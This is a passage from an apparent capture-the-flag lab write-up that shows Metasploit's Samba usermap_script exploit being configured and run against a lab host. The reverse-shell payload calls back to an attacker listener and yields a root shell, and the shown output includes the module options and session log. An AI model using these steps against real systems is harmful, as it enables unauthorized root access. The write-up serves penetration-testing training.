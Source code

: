 
Now I can check out the options and make sure everything looks right:

    
    
    msf5 exploit(multi/samba/usermap_script) > options
    
    Module options (exploit/multi/samba/usermap_script):
    
       Name    Current Setting  Required  Description
       ----    ---------------  --------  -----------
       RHOSTS  10.10.10.3       yes       The target address range or CIDR identifier
       RPORT   139              yes       The target port (TCP)
    
    
    Payload options (cmd/unix/reverse):
    
       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.10.14.24      yes       The listen address (an interface may be specified)
       LPORT  443              yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic
    

When I run this, it shows me that shell session opened, and then just sits at
an empty line. But if I type commands into that line, I get results:

    
    
    msf5 exploit(multi/samba/usermap_script) > run
    
    [*] Started reverse TCP double handler on 10.10.14.24:443 
    [*] Accepted the first client connection...
    [*] Accepted the second client connection...
    [*] Command: echo zchdJVWjFG8sP3T3;
    [*] Writing to socket A
    [*] Writing to socket B
    [*] Reading from sockets...
    [*] Reading from socket B
    [*] B: "zchdJVWjFG8sP3T3\r\n"
    [*] Matching...
    [*] A is input...
    [*] Command shell session 1 opened (10.10.14.24:443 -> 10.10.10.3:37959) at 2019-02-28 08:52:31 -0500
    
    id
    uid=0(root) gid=0(root)
    

### Shell as Root

With a shell via any of these methods, I can use `python` and `pty` to get a
nicer shell:

    